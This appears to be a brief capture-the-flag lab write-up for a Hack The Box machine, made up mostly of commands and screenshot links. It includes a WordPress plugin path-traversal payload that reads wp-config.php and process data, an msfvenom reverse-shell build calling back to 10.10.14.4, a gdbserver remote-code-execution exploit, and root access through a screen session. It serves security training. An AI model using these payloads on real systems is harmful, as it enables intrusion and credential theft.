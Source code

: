 ```
http://10.10.11.125/wp-content/plugins/
WordPress Plugin eBook Download 1.1 - Directory Traversal
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/812/cmdline
GNU gdbserver 9.2 - Remote Command Execution (RCE)
ps aux
screen -x root/root
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.125
```
![image](https://github.com/regarmulia/HTB/assets/33616880/be022ff2-0ea7-4b07-850c-62180b3ecaa5)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.125/wp-content/FUZZ -e .aspx,.php,.txt,.html
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f77925a-e53f-4365-8239-b28c5e9704f2)


```
http://10.10.11.125/wp-content/plugins/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fa8d6c3e-19ee-4647-868b-f71fc8fdc5fc)


```
https://www.exploit-db.com/exploits/39575
```
![image](https://github.com/regarmulia/HTB/assets/33616880/40ce0af1-0709-4d35-8248-112d04a32829)


```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d3bfc7b6-6986-42bc-b970-94e3d598aff9)


```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/812/cmdline
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d3ff846-8d87-41ee-bb76-3d492edc6d34)
![image](https://github.com/regarmulia/HTB/assets/33616880/5664cfa5-f4d7-4f34-bfbd-433946f7cf65)
![image](https://github.com/regarmulia/HTB/assets/33616880/16123463-9033-489e-9fb1-024324f33a02)


```
https://www.exploit-db.com/exploits/50539
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4f9f0677-885f-4244-bae0-f203d49a199a)


```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 PrependFork=true -o rev.bin
python3 50539.py 10.10.11.125:1337 rev.bin
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4299ba5f-e471-48c4-8137-0d1da24569cc)


```
ps aux
```
![image](https://user-images.githubusercontent.com/33616880/230254776-1416e191-549f-4f02-a683-cce2a129a5db.png)
![image](https://user-images.githubusercontent.com/33616880/230255081-2d9d559b-e3b9-4c4a-93d6-530f40436951.png)


```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
screen -x root/root
```
![image](https://user-images.githubusercontent.com/33616880/230254965-359d1dd1-6eab-4e74-824f-fdb933ff8615.png)
![image](https://user-images.githubusercontent.com/33616880/230254971-feb96981-888e-4074-9941-9f76ec8ee266.png)
